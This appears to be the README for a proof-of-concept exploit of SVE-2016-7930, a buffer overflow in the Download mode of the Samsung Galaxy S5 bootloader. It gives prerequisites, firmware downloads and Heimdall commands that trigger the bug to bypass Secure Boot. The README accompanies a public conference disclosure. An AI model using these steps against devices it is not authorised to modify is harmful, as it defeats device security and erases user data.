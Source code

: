 # PoC for SVE-2016-7930 : multiple buffer overflows in Samsung Galaxy bootloader
SVE-2016-7930 is a bug in Download mode (ODIN) of Samsung Galaxy phones. ODIN is a proprietary customization implemented by Samsung in the open-source LK bootloader. The bug allows to run arbitrary code on devices with Secure Boot enabled (locked bootloader). Technical details have been released at SSTIC 2017 conference (https://www.sstic.org/2017/presentation/attacking_samsung_secure_boot/).

## Disclaimer
YOU'RE THE ONLY RESPONSIBLE FOR ANY DAMAGE CAUSED TO YOUR HARDWARE/SOFTWARE/WARRANTY/DATA/CAT/ETC...

## Prerequisites
* Samsung Galaxy S5 G900A with firmware G900AUCS4DQB1
* Blank SD-card (**data will be erased !!!**)
* Latest Heimdall source code that includes T-Flash feature (https://github.com/Benjamin-Dobell/Heimdall)
* TWRP image (https://dl.twrp.me/klte/twrp-3.1.0-1-klte.img.html)

## Firmware
**Flashing new firmware or OTA update will erase user data**

If your device doesn't run G900AUCS4DQB1, you should flash full firmware G900AUCS4DPH4, then apply OTA updates G900AUCS4DPH4-to-U4DQA1 & G900AUCU4DQA1-to-S4DQB1).

OTA updates can be downloaded directly from AT&T servers:
```
$ wget --user-agent="SAMSUNG-Android" "https://xdmd.sl.attcompute.com/agents/42925/1488/SS-G900AUCS4DPH4-to-U4DQA1-UP"
$ wget --user-agent="SAMSUNG-Android" "https://xdmd.sl.attcompute.com/agents/42925/1488/SS-G900AUCU4DQA1-to-S4DQB1-UP"
```
## Procedure
0) Unzip *G900AUCS4DQB1_boot_usb.img.gz*
```
$ gunzip G900AUCS4DQB1_boot_usb.img.gz
```
1) Apply *heimdall-increase_fileTransferSequenceMaxLength.patch* on Heimdall source tree & build it
2) Insert blank SD-card in your phone
3) Boot in Download mode (Hold Volume Down + Home buttons while booting)

4) Prepare the SD-card with Heimdall
```
$ heimdall flash --tflash --verbose --repartition --pit ./KLTE_USA_ATT.pit --BOOT ./G900AUCS4DQB1_boot_sdcard.img --RECOVERY ./twrp-3.1.0-1-klte.img
```
5) Reboot in Download mode again
6) Trigger the exploit
```
$ heimdall flash --tflash --verbose --no-reboot --BOOT ./G900AUCS4DQB1_boot_usb.img
```
This PoC will boot the recovery image flashed on the SD-card at step 4. This recovery image can eventually be replaced with a custom Android boot image.